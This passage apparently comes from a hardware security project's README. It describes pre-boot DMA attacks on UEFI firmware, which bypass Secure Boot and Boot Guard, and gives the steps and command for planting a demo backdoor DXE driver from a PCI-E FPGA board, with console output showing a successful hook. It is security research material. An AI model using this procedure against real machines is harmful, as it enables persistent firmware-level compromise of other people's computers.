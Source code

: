 
## Practical DMA attacks

One of the main goals of this project is providing flexible and convenient set of tools to perform so called pre-boot DMA attacks, in comparison with regular DMA attacks they are targeting pre-boot environment of UEFI DXE phase of the platform initialization rather than operating system itself. Such attacks allows to run malicious code at relatively early stages when [IOMMU](https://en.wikipedia.org/wiki/Input%E2%80%93output_memory_management_unit) and other security features of the operating system are not initialized yet. 

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/boot_phases.jpg" width="610">

Pre-boot DMA attacks allows to bypass various security features of the platform firmware like UEFI secure boot or [Intel Boot Guard](https://edk2-docs.gitbook.io/understanding-the-uefi-secure-boot-chain/secure_boot_chain_in_uefi/intel_boot_guard).

Python program `uefi_backdoor_simple.py` injects dummy UEFI DXE driver located in `payloads/DmaBackdoorSimple` folder into the target system boot sequence using pre-boot DMA attack described above. To use this program you have to perform the following steps:

1) Power off the target computer.

2) Connect SP605 board to the PCI-E (or Mini PCI-E, or M.2) port of the target computer.

3) Turn the borad on and ensure that Microblaze firmware was successfully initialized by pinging an IP address that was specified during the board configuration with `bootloader_ctl.py` program. 

4) Run the following command to start pre-boot DMA attack: 

```
$ ./uefi_backdoor_simple.py --driver payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
```

5) Power on the target computer, in case of successful attack after the couple of seconds you will see red debug messages screen of injected UEFI DXE driver:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/backdoor_simple.png" width="540">

An example of `uefi_backdoor_simple.py` console output after the successful attack:

```
$ ./uefi_backdoor_simple.py --driver payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] TSEG is somewhere around 0xd7000000
[+] PE image is at 0xd6260000
[+] EFI_SYSTEM_TABLE is at 0xd61eaf18
[+] EFI_BOOT_SERVICES is at 0xd680aa00
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0xd67e2c18
Backdoor image size is 0x1240
Backdoor entry RVA is 0x31c
Planting DXE stage driver at 0x10000...
Hooking LocateProtocol(): 0xd67e2c18 -> 0x0001031c
0.780202 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```
